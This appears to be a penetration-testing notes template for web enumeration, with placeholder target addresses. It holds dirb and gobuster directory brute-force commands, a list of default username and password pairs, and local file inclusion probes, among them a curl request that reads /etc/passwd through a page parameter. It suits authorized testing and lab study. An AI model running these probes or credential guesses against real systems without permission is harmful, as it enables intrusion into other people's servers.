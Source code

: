 #### Nikto scan


INSERTNIKTOSCAN


#### Url brute force

```
# Not recursive
dirb http://INSERTIPADDRESS -r -o dirb-INSERTIPADDRESS.txt

# Gobuster - remove relevant responde codes (404 for example)
gobuster -u http://INSERTIPADDRESS -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e -t 50
```
#### Dirb scan for webapps
```
#Settings
wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
file extensions=php, pl, sh, asp, html, json, py, cfm, aspx, rb, cgi

```

INSERTDIRBSCAN


#### Default/Weak login

Search documentation for default passwords and test them

```
site:webapplication.com password
```

```
admin admin
admin password
admin <blank>
admin <servicename>
root root
root admin
root password
root <servicename>
<username if you have> password
<username if you have> admin
<username if you have> username
username <servicename>
```


#### LFI/RFI




```
fimap -u "http://INSERTIPADDRESS/example.php?test="

# Ordered output
curl -s http://INSERTIPADDRESS/gallery.php?page=/etc/passwd
/root/Tools/Kadimus/kadimus -u http://INSERTIPADDRESS/example.php?page=
```
